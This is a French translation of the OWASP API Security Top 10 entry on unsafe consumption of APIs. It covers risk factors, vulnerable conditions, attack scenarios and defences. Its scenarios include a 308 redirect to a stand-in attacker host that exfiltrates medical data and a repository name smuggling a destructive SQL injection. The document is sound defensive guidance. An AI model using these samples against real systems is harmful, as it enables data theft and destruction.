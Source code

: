 # API10:2023 Unsafe Consumption of APIs

| Facteurs de menace / Vecteurs d'attaque | Faille de sécurité | Impact |
| - | - | - |
| Spécifique à l'API : Exploitabilité **Facile** | Prévalence **Courante** : Détectabilité **Moyenne** | Technique **Grave** : Spécifique à l'organisation |
| Exploiter ce problème nécessite que les attaquants identifient et compromettent potentiellement d'autres APIs/services avec lesquels l'API cible est intégrée. Habituellement, ces informations ne sont pas publiquement disponibles ou l'API/service intégré n'est pas facilement exploitable. | Les développeurs ont tendance à faire confiance et ne pas vérifier les points d'accès qui interagissent avec des API/services externes ou tiers, en se basant sur des exigences de sécurité plus faibles telles que celles concernant la sécurité du transport, l'authentification/l'autorisation et la validation des entrées. Les attaquants doivent identifier les services avec lesquels l'API cible s'intègre (sources de données) et, éventuellement, les compromettre. | L'impact varie en fonction de ce que l'API cible fait avec les données extraites. L'exploitation réussie peut entraîner une exposition d'informations sensibles à des acteurs non autorisés, de nombreux types d'injections, ou un déni de service. |

## L'API est-elle vulnérable ?

Les développeurs ont tendance à faire confiance aux données reçues des API tierces plus qu'aux entrées utilisateur. Cela est particulièrement vrai pour les API proposées par des entreprises bien connues. En raison de cela, les développeurs ont tendance à adopter des normes de sécurité plus faibles, par exemple en ce qui concerne la validation des entrées et l'analyse en vu de caractères autorisés ou non en entrée (effacés ou échappés).

L'API peut être vulnérable si :
* Elle interagit avec d'autres API sur un canal non chiffré ;
* Elle ne valide pas et ne désinfecte pas correctement les données collectées auprès d'autres API avant de les traiter ou de les transmettre à des composants en aval ;
* Elle suit aveuglément les redirections ;
* Elle ne limite pas le nombre de ressources disponibles pour traiter les réponses des services tiers ;
* Elle n'implémente pas de délais d'attente pour les interactions avec les services tiers.

## Exemple de scénarios d'attaque

### Scénario #1

Une API repose sur un service tiers pour enrichir les adresses commerciales fournies par les utilisateurs. Lorsqu'une adresse est fournie à l'API par l'utilisateur final, elle est envoyée au service tiers et les données renvoyées sont ensuite stockées dans une base de données locale compatible SQL.

Les attaquants utilisent le service tiers pour stocker une payload SQLi associée à une entreprise créée par eux. Ensuite, ils ciblent l'API vulnérable en fournissant une entrée spécifique qui la pousse à extraire leur "entreprise malveillante" du service tiers. La charge utile SQLi est alors exécutée par la base de données, exfiltrant des données vers un serveur contrôlé par un attaquant.

### Scénario #2

Une API s'intègre à un fournisseur de services tiers pour stocker en toute sécurité des informations médicales sensibles sur les utilisateurs. Les données sont envoyées via une connexion sécurisée en utilisant une requête HTTP comme celle ci-dessous :

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Des acteurs malveillants ont trouvé un moyen de compromettre l'API tierce et elle commence à répondre avec une redirection permanente `308` aux requêtes comme la précédente.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Puisque l'API suit aveuglément les redirections, elle répète la même requête, y compris les données sensibles de l'utilisateur, vers le serveur de l'attaquant.

### Scénario #3

Un attaquant peut préparer un dépôt git nommé `'; drop db;--`.

Maintenant, lorsqu'une intégration d'une application attaquée est effectuée avec le dépôt malveillant, une charge utile d'injection SQL est utilisée sur une application qui construit une requête SQL en croyant que le nom du dépôt est une entrée sûre.

## Comment s'en prémunir ?

* Lors de l'évaluation des fournisseurs de services, évaluez leur posture de sécurité API.
* Assurez-vous que toutes les interactions API se font sur un canal de communication sécurisé (TLS).
* Validez toujours et désinfectez correctement les données reçues des API intégrées avant de les utiliser.
* Maintenez une liste blanche des emplacements bien connus vers lesquels les API intégrées peuvent rediriger les vôtres : ne suivez pas aveuglément les redirections.


## Références

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### Externes

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
